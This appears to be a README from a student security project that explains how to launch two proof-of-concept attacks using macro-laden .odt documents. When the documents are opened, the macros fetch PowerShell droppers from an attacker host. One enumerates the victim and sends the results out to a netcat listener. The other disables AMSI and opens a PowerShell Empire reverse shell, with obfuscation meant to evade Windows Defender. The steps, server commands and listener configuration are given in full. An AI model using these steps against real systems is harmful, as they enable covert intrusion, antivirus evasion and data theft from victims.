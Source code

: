 # Instruction for attacks
In this document are presented the instration to launch the attack with the POCEnumAndSendBackResults.odt and the POC-msf.odt file.

**NOTE: before launching the attacks make sure that the attacker machine can communicate with the victim machine and has an IP address of 10.0.2.4**


## POCEnumAndSendBackResults.odt
This document contains a macro which gets automatically executed when the document is open. The macro code downloads a PowerShell script called attackScript.ps1 from an attacker machine which gets executed in memory. This script acts as a dropper for downloading another PowerShell script called enumScript.ps1 from the attacker machine which performs some basic enumeration on the victim device. Then it encodes the result from the enumeration and sends the result back to the attacker using a POST web request. The techniques used in macro are realistic and stealthy as no artefacts are left on the disk of the victim machine.

### Steps to reproduce attacks
1) go in the POCEnumAndSendBackResults folder where powershell scripts  are located. 
```
cd /home/kali/Desktop/compsec2/POCEnumAndSendBackResults
```
2) start an http server on port 8080 using python
```
python -m http.server 8080
```
3) open a new terminal window and use nc to listen on port 443
```
nc -lvnp 443
```
4) open the POCEnumAndSendBackResults.odt file on the victim machine. You should see from the python webserver that two files get donloaded
5) go to the terminal tab with nc listening, you should have received back a POST web requiste from the victim machine with some base64 encoded data
6) decode the base64 data
```
echo 'base64EncodedData' | base64 -d
```




## POC-msf.odt
Macro3 - POC-msf.odt: This document contains a macro which gets automatically executed when the document is open. The macro code downloads a PowerShell script from an attacker machine which gets executed in memory and acts as a dropper for downloading another PowerShell script which Disable AMSI and executes a powershell-empire  reverse shell back to the attacker. The macro code and the PowerShell script are highly obfuscated to avoid that Windows Defender detecting the .odt file and macro scripts as malicious. The techniques used in macro are realistic and stealthy as everything is performed in memory (using the IEX command) leving no artifacts on the disk of the victim machine.

### Steps to reproduce attacks
1) go in the POCEnumAndSendBackResults folder where powershell scripts  are located. 
```
cd /home/kali/Desktop/compsec2/POCmsf
```
2) start an http server on port 8080 using python
```
python -m http.server 8080
```
3) open a new terminal window and start the powershell empire server 
```
sudo powershell-empire server
```
4) open the browser and go to http://localhost:1337/index.html. the credential to log in are empireadmin-password123
5) go into the listener section, a listerner called http should already exist. if it does not existe create one.
stager info (if information is not present below, leave as default):
```
type: http
name: http
host: http://10.0.2.4:8000
port: 8000
bindIp: 0.0.0.0
launcher: powershell -noP -sta -w 1 -enc 
stagingKey: q5DRvd&HF}~MGS.)#TroflKCiW/c8?>z
defaultDelay: 5
defaultJitter: 0.0
defaultLostLimit:60
defaultProfile: /admin/login.php,/news.php,/blog/article1.php|Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Headers: Server:Microsoft-IIS/7.5
JA3_Evasion: False
cookie: PHPID
```
6) open the POC-msf.odt file on the victim machine. You should see from the python webserver that two files get downloaded
7) go to the agent tab, you should see that a new agent has been activated and a reverse shell has been established bypassing AMSI and Windows Defender
